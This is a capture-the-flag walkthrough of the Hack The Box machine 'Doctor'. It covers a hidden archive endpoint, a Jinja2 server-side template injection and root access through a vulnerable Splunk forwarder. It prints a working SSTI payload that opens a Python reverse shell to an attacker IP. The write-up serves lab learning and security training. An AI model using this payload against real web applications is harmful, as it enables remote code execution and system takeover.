# Doctor

## Gaining Access

Nmap scan:



### Doctors.htb

The website revealed a basic corporate page:


There was nothing interesting, until I added `doctors.htb` to the `/etc/hosts` file (as per standard HTB practice) and visited that site.



Here, we can create an account and test this service. When logged in, we can see a few functions.



When examining the page source, we can find an `/archive` endpoint.

```markup
 <div class="navbar-nav mr-auto">
              <a class="nav-item nav-link" href="/home">Home</a>
              <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
            </div>
            <!-- Navbar Right Side -->
            <div class="navbar-nav">
```

When visiting it, it returns nothing but the **posts that we have made**.

### SSTI in Posts

Initially, I tested other vulnerabilities like SSTI on the username and the message posting functions but it didn't return any positives.



When I visited the `/archive` endpoint, we would actually see that it works!



For SSTI, we can follow this table on HackTricks to determine which framework is being used.



For this specific box, we can determine that it's Jinja2 or Twig. On PayloadAllTheThings, there's a payload that works in spawning a reverse shell.

```

{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}

```

When we submit this as a message, it would spawn a reverse shell.



## Privilege Escalation

### Shaun Credentials

I ran LinPEAS to enumerate all files for me, it found a credential for me.



When checking for other users, there was only the user `shaun`.



We can try using `su` with this credential, and it works.



### Splunk RCE

I checked the `/opt` directory, and found that there were some `splunkforwarder` related files within it.



Normally, Splunk runs on port 8089, and we did find that port open on the machine earlier. Furthermore, this version of Splunk is vulnerable to an RCE exploit called SplunkWhisperer.



We can easily run the exploit to give us a reverse shell as root.




